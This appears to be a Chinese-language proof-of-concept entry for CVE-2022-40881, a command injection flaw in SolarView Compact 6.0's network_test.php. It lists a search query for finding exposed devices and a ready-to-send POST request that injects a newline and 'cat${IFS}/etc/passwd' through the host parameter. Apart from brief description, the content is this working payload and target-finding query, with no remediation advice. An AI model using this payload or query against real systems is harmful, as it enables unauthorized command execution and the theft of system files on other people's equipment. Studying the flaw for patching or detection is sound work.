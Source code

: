 # SolarView network_test.php 远程命令执行漏洞 CVE-2022-40881

## 漏洞描述

SolarView network_test.php 存在远程命令执行漏洞，攻击者通过构造特殊的请求，可以获取服务器权限

## 漏洞影响

<a-checkbox checked>SolarView Compact 6.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="SolarView Compact" && title=="Top"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1654151463845-e856185f-ea32-4bbc-b9e6-39bf569c8f72-0128095.png)

验证POC

```php
POST /network_test.php
  
host=%0acat${IFS}/etc/passwd%0a&command=ping
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1670128065393-34dcd02a-13db-4542-8069-421575487d03.png)